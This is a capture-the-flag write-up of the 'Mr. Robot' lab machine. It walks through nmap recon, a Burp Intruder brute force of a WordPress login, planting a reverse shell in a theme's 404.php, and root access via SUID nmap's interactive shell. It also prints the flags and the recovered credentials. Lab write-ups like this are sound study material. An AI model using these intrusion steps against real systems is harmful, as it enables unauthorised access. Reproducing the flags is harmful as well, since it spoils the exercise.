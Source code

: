 #CTF 

Can you root this Mr. Robot styled machine? This is a virtual machine meant for beginners/intermediate users. There are 3 hidden keys located on the machine, can you find them?

Credit to [Leon Johnson](https://twitter.com/@sho_luv) for creating this machine. **This machine is used here with the explicit permission of the creator <3**

## Recon

We start with Nmap as always and we get:

```
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
MAC Address: 02:82:46:B0:66:D3 (Unknown)
Aggressive OS guesses: Linux 3.13 (96%), Linux 3.10 - 4.8 (89%), Linux 3.11 (89%), Linux 3.12 (89%), Linux 3.13 or 4.2 (89%), Linux 3.2 - 3.5 (89%), Linux 3.2 - 3.8 (89%), Linux 4.4 (89%), Crestron XPanel control system (88%), Linux 4.2 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.50 ms ip-10-10-200-68.eu-west-1.compute.internal (10.10.200.68)
```

So we have two web ports 80 and 443 both open and a ssh closed port.
Lets visit the the web ports
##### First 80:

We are pressented with an animation of a shell with a login and the we have some options and we can actually type in the console.
The options are prepare ,fsociety,inform,question,wakeup and join.

- Prepare plays a clip from the show.
- fsociety plays a small clip and the then again on the console
- inform presents a carousel of articles with test bellow. **A lot of information here! **


## Flags

#### Flag 1
Searching the /robots.txt directory I am presented with
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

So I navigate to key-1-of-3.txt and get my first flag
`073403c8a58a1f80d943455fb30724b9`

#### Flag 2
Next I download the dictionary fsocity.dic 
And scan the machine with [[Gobuster]] 
`gobuster dir -w fsocity.dic -u [ip]`

I found `/wp-login` that has a login page.
I tried a couple of  default user-passwords combinations but the error message always was
`**ERROR**: Invalid username. [Lost your password?](http://10.10.71.147/wp-login.php?action=lostpassword)`

But then I tried Elliot as username and got back
`**ERROR**: The password you entered for the username **Elliot** is incorrect. [Lost your password?](http://10.10.71.147/wp-login.php?action=lostpassword)`

which means that Elliot is registered as a valid username.
I will try to attach the login page with [[Burpsuite]].
I open burp, capture the login request with proxy and send it to the intruder.
I use a sniper attack and as payload I use the fsocity.dic.
After sometime I find the password
So I have the creds `Elliot    ER28-0652`

I take a look around and find the Appearance. Under that tab there is an Editor tab, that contains code. I will paste reverse-shell code.
On the 404.php file I paste my code. I open a netcat connection and navigate on the /404.php subdirectory and catch the connection!
I navigate on `/home/robot` and find key-2-of-3.txt and password.raw-md5
I dont have permission to cat the second key.
So I cat the password.raw-md5 `robot:c3fcd3d76192e4007dfb496cca67e13b`
The result of md5 is `abcdefghijklmnopqrstuvwxyz`

I try to su on robot, but I get `su: must be run from a terminal`
So to spawn a stable terminal I type `python -c 'import pty;pty.spawn("/bin/bash")'`
And now I can su on robot with the above password.
And I get the second key `822c73956184f694993bede3eb39f959`

## Priv Esc

#### Flag 3
I try `sudo -l` but I get: Sorry, user robot may not run sudo on linux.

Next I found this online `find / -perm -u=s -type f 2>/dev/null`
```
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
```

Also the hind on the last flag was `nmap`
I see `/usr/local/bin/nmap`, so I search on GTFO bins
I find [this](https://gtfobins.github.io/gtfobins/nmap/), I tried the first method on the Sudo section, but I got
`robot is not in the sudoers file.  This incident will be reported.`
I tried without sudo, but nothing

So I tried the second method
```
sudo nmap --interactive
nmap> !sh
```
Again without sudo and I got root!
Under /root I found my last flag `04787ddef27c3dee1ee161b21670b4e4`
